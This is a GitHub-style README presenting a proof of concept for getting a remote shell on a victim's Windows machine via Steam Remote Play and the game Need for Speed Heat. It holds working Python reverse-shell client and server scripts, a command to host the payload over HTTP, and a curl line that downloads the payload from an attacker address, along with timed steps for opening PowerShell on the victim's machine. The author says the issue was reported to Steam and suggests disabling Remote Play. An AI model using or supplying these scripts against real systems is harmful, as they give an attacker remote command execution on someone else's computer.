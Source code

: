 # Steam Remote Play - Reverse Shell

The vulnerability I'm exploring relates to Steam Remote Play. In this particular case, I used the same account, "chibataglini," which is connected to two different machines: the victim's Windows machine and the attacker's Linux machine. For the purposes of this Proof of Concept (POC), I'm conducting it locally for simplicity. The attack vector is the game "Need for Speed Heat." I tested it with other games, but the same effect couldn't be achieved. Hence, I'm using "Need for Speed Heat" as the attack vector. Therefore, it's essential for "Need for Speed Heat" to be downloaded on both machines; otherwise, the attack won't be possible. In a real-world scenario, social engineering would be required to convince the victim to download the game, but that's not within the scope of this POC.

**Prerequisites:**

**Victim's Computer**:
- Steam account connected with the attacker's account (in this test, it's "chibataglini").
- "Need for Speed Heat" game downloaded.
- Steam application running.
- Python installed (used for the reverse shell). Metasploit can also be used, but it may be detected by antivirus software.

**Attacker's Machine**:
- Steam account connected with the attacker's account (in this test, it's "chibataglini").
- "Need for Speed Heat" game downloaded.
- Python installed.

**Proof of Concept (POC)**

We will start by creating Python server and client scripts to perform the reverse shell. I've attached these scripts; be sure to change the "SERVER_HOST" variable to the attacker's machine's IP. Save these two scripts in a Linux directory.
Code script reverse shell: file **client.py**

```python
import socket
import subprocess

SERVER_HOST = "xxx.xxx.xx.xx"
SERVER_PORT = 8080
BUFFER_SIZE = 1024

s = socket.socket()
s.connect((SERVER_HOST, SERVER_PORT))

message = s.recv(BUFFER_SIZE).decode()
print("Server:", message)

while True:
    command = s.recv(BUFFER_SIZE).decode()
    if command.lower() == "exit":
        break
    output = subprocess.getoutput(command)
    s.send(output.encode())
s.close()
```

Open a terminal in the directory where these two files are saved, and run the following command to start a server:

```shell
python3 -m http.server 80
```

This is important because we'll download the "client.py" script on the victim's machine for the reverse shell. Open a new terminal to run our reverse shell server:

```shell
python3 servidor.py
```
file **servidor.py**:
```python
import socket
SERVER_HOST = "0.0.0.0"
SERVER_PORT = 8080
BUFFER_SIZE = 1024
s = socket.socket()


s.bind((SERVER_HOST, SERVER_PORT))

s.listen(5)
print(f"Listening as {SERVER_HOST}:{SERVER_PORT} ...")

client_socket, client_address = s.accept()
print(f"{client_address[0]}:{client_address[1]} Conectado!")

message = "Conexao estabelecida com sucesso!".encode()
client_socket.send(message)

while True:
    command = input("Digite um comando: ")
    client_socket.send(command.encode())
    if command.lower() == "exit":
        break
    results = client_socket.recv(BUFFER_SIZE).decode()
    print(results)
client_socket.close()
s.close()
```

1. Open the Steam application on the attacker's machine.
2. Open Steam on the Linux machine.
3. Navigate to the "Need for Speed" game.
4. Now comes the critical part where the vulnerability becomes apparent. While the game is loading on the victim's system, we have a small window of time to execute our attack.
5. a-)  Click on the "Connect"
![Connect](img/connect.png)

If he already connects to the victim's machine, do step 6. If he freezes, do step 12. If he logs in and out, do step 6)
6. Click on the "Stream" button (Since I'm Brazilian and use the translated version of Steam, I'm not sure of the exact name of the button in English, but I demonstrate it in the video. I apologize for this detail.).

7. Once the game streaming begins, access to the Windows machine is possible.
   
8. If the Windows machine appears, take advantage of this brief window to open PowerShell (you have approximately 3 to 10 seconds to do this). Use the shortcut "Windows+R," type "powershell.exe," and press Enter.
   
9. With PowerShell open, download the reverse shell file from the attacker's machine using the following command:

```shell
curl http://attacker_ip/client.py -o client.py
```

10. Use the Python command to execute the "client.py" file to perform the reverse shell.

```shell
python3 client.py
```

11. Now, return to the Linux machine, where the terminal with the reverse shell server running will give you access to the Windows machine.
    
![reverse shell](img/poc_shellreverse.png)

12. **Note:** If the connection is interrupted, it's likely because the game has finished loading on the victim's machine. In this case, you won't be able to run commands on the Windows machine anymore. To continue, stop the game on the Linux machine and repeat steps 5 and 6 to resume from where you left off. The attached video demonstrates this process.
![reverse shell](img/stop.png)

## Video POC: Video showing how to hack the victim's machine.

![reverse shell](img/POC_shellReverse.gif)

## Response from the Steam

However, after reporting this vulnerability, the response from the Steam team was as follows:

![reverse shell](img/report_steam.png)

Therefore, I recommend disabling the Steam Remote Play feature if you do not use it.
I will continue studying this vulnerability for more general cases. As soon as I have new updates, I will post them here.

